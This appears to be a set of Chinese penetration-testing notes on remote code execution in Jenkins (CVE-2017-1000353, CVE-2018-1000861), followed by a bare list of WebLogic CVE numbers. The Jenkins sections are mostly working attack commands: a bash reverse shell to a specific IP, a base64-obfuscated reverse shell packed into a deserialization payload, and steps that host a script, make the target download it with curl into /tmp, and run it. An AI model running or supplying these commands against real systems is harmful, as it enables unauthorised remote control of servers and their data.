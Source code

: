 需要JDK-1.8.0_291 其他版本失效

工具
http://github.com/vulhub/CVE-2017-1000353

```
反弹命令
bash -i >& /dev/tcp/47.94.236.117/5566 0>&1

工具指令

1、编译出jenkins_poc.ser
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMzYuMTE3LzY2ODggMD4mMQ==}|{base64,-d}|{bash,-i}"
2、执行
python exploit.py http://123.58.236.76:54217 jenkins_poc.ser

```

## 2、CVE-2018-1000861

https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc

```
自身主机

反弹命令
bash -i >& /dev/tcp/47.94.236.117/5566 0>&1
将命令写入可远程访问主机的txt文件

启动远程监听
python3 -m http.server 8888

将在目标主机的/tmp目录生成1.sh文件
python2 exp.py http://123.58.236.76:52281/ "curl -o /tmp/1.sh http://47.94.236.117:8888/shell.txt"

让目标主机执行1.sh文件
python2 exp.py http://123.58.236.76:52281/ "bash /tmp/1.sh"
```

## 3、cve_2019_100300 需要用户帐号密码

# 七、中间件-Weblogic

CVE&反序列化&RCE

Weblogic是Oracle公司推出的J2EE应用服务器。

探针默认端口：==7001==

```
CVE-2023-21839（JNDI）

CVE-2020-2551（JRMP）

CVE-2020-2551

CVE-2020-2555

CVE-2020-2883

CVE-2020-14882未授权访问

CVE-2018-2894

CVE-2018-2628（JRMP）
```